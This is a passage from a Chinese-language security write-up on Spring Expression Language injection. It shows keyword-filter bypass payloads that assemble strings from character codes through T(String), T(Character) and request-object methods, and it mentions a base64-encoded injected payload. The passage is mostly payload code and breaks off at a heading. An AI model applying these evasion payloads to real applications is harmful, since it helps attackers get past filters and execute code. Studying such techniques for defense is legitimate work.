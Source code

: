 ```java

```

把他变为base64塞入payload之后注入。  
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691303725178-a9138262-ff33-4f41-9467-091f2be3777a.png#averageHue=%23f9f9f9&clientId=ufca30b7c-6586-4&from=paste&height=414&id=ub9c92bdd&originHeight=518&originWidth=1108&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=22893&status=done&style=none&taskId=u037f95d9-4e77-4c8f-a789-0fc58df1db2&title=&width=886.4)  
这就是我的纯度。

六、关键字Bypass（编不下去了）
==================

纯度宝典最后一页，假如没有技能了怎么办  
和一些其他语言的沙盒逃逸一样，想办法找到替代的东西，思路其实大差不差。

字符串替换
-----

形如这样的

```php
T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,51)+T(String).getName()[0].replace(106,122)+T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,49)
#回显h3zh1
```

`T(String).getName`返回的是`java.lang.String`，然后用replace替换获取想要的字符串，这种比较麻烦。

还有一种就是直接使用类似`chr`函数

```php
T(Character).toString(104)+T(Character).toString(51)+T(Character).toString(122)+T(Character).toString(104)+T(Character).toString(49)
```

外部对象request
-----------

假如上下文中有request对象的话就也有几种方法

```php
//request.getMethod()为POST

#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,51)%2b#request.getMethod().substring(0,1).replace(80,122)%2b#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,49)
//request.getMethod()为GET

#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,51)%2b#request.getMethod().substring(0,1).replace(71,122)%2b#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,49)

//Cookie
#request.getRequestedSessionId()
```

反射+字符串拼贴
--------
